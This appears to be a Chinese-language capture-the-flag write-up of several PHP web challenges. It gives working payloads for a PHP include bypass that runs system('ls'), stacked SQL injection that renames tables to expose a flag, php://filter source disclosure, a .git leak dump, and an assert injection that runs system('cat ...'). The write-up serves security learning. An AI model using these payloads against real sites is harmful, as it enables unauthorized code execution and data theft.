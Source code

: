 ### Web_php_include
题目源代码
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

payload
```
http://220.249.52.134:54379/?page=http://127.0.0.1/index.php/?hello=%3C?system(%22ls%22);?%3E
```

page参数指向的是一个网页文件，而这个网页文件中存在恶意脚本<?system("ls");?>，在include时被执行。

### supersqli
注入过程中报错如下：
```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
可以使用堆叠注入：
```mysql
1';show tables;#
1';show columns from words;#
1';show columns from `1919810931114514`;# 
1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#
1' or 1=1 #
```

### web2
```php
<?php
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

function encode($str){
    $_o=strrev($str);
    // echo $_o;
        
    for($_0=0;$_0<strlen($_o);$_0++){
       
        $_c=substr($_o,$_0,1);
        $__=ord($_c)+1;
        $_c=chr($__);
        $_=$_.$_c;   
    } 
    return str_rot13(strrev(base64_encode($_)));
}

highlight_file(__FILE__);
/*
   逆向加密算法，解密$miwen就是flag
*/
?>
```
解密
```php
<?php

$a = 'a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws';

$b = base64_decode(strrev(str_rot13($a)));
$flag = '';
for($c = 0;$c < strlen($b);$c++){

    $d = substr($b,$c,1);
    $f = chr(ord($d)-1);
    $flag = $flag.$f;
}

echo strrev($flag);

?>
```


### unserialize3
PHP反序列化漏洞：执行unserialize()时，先会调用__wakeup()。

当序列化字符串中属性值个数大于属性个数，就会导致反序列化异常，从而跳过__wakeup()。

### Guess
php伪协议
```python
http://220.249.52.134:41787/?page=php://filter/convert.base64-encode/resource=upload
```

### mfw70
信息泄露
```python GitHack.py http://220.249.52.134:53570/.git/```
assert注入
```assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");```
payload
```php
$file = "') or system('cat templates/flag.php') or strpos('";
//注入后
assert("strpos('') or system('cat templates/flag.php') or strpos('', '..') === false") or die("Detected hacking attempt!");
```